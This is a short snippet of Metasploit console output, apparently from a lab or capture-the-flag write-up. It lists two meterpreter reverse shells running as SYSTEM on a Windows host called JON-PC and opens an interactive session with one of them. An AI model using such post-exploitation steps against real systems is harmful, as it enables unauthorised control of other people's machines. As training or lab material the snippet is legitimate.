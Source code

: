 ```
msf6 > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```

